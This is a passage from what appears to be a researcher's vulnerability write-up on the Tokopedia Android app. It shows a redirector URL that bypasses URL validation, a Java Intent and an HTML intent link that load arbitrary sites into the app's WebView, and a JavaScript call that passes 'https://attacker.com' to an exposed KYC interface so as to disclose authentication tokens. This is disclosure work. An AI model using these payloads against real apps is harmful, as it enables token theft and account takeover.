 With my HSTS redirector, I could easily bypass Tokopedia's URL validation _and_ avoid the ERR_CLEARTEXT_NOT_PERMITTED error with a URL such as the following:

```
httpsredirector.com?://tokopedia.com/&u=https://example.com
```

Expanding (yet again) on our previous examples, the following code snippet shows how this URL payload could be used by another app to attack the Tokopedia app:

```
Intent intent = new Intent("android.intent.action.VIEW");
intent.setData(Uri.parse("tokopedia-android-internal://home/navigation"));
intent.putExtra("EXTRA_APPLINK", "tokopedia-android-internal://user/webview-kyc?url=httpsredirector.com%3f%3a%2f%2ftokopedia.com%2f%26u%3dhttps%253a%252f%252fexample.com");
startActivity(intent);
```

As I previously mentioned, the behavior can also be triggered by clicking a hyperlink. The following HTML snippet shows what this would look like (and it's not pretty):

```
<a href="intent:tokopedia-android-internal://home/navigation#Intent;action=com.tokopedia.internal.VIEW;S.EXTRA_APPLINK=tokopedia-android-internal://user/webview-kyc?url%3dhttpsredirector.com%253f%253a%252f%252ftokopedia.com%2523u%253dhttps%253a%252f%252fexample.com;end">Exploit Tokopedia</a>
```

Anyway, after much effort, I was able to load an arbitrary website into TkpdWebView:

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjf-HHlk6wukhi0DVFW0BY6EOYuIStJ1hVUfrXF4wRvj9S_WF3Xb6OwR5L8lTLhyjp2zi9ifwFbFrJCHpgyBPy-jrCvJqz3g_dq65l_W31K6ldyPXO2AEdlo0IcSxqVBQqaDP8VLWpC-c5auXPSNktPVRmPNpfm_7u_lCbGaIGH3yfNZHfROkUzc9DWqWzw/s320/Screenshot_20240704-141110.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjf-HHlk6wukhi0DVFW0BY6EOYuIStJ1hVUfrXF4wRvj9S_WF3Xb6OwR5L8lTLhyjp2zi9ifwFbFrJCHpgyBPy-jrCvJqz3g_dq65l_W31K6ldyPXO2AEdlo0IcSxqVBQqaDP8VLWpC-c5auXPSNktPVRmPNpfm_7u_lCbGaIGH3yfNZHfROkUzc9DWqWzw/s2400/Screenshot_20240704-141110.png)

_Success! https://example.com loaded inside TkpdWebView._  

Even after all of this work, I _still_ didn't actually have proof of a vulnerability. While the ability to load arbitrary websites into TkpdWebView certainly wasn't desirable behavior, it didn't meet the bar for disclosure unless I could exploit it for notable impact.

### Authentication Token Disclosure

When loaded into WebviewWithGotoKycActivity, TkpdWebView [exposes a custom JavaScript API](https://developer.android.com/reference/android/webkit/WebView#addJavascriptInterface%28java.lang.Object,%20java.lang.String%29) to the rendered website. This API includes a global object, OneKycAndroidInterface, with a function that has the following prototype:

```
getOneKycUserDetails(baseUrl, arg2, arg3)
```

A website can call this function using JavaScript code such as the following:

```
OneKycAndroidInterface.getOneKycUserDetails('https://attacker.com', 'arg2', 'arg3');
```

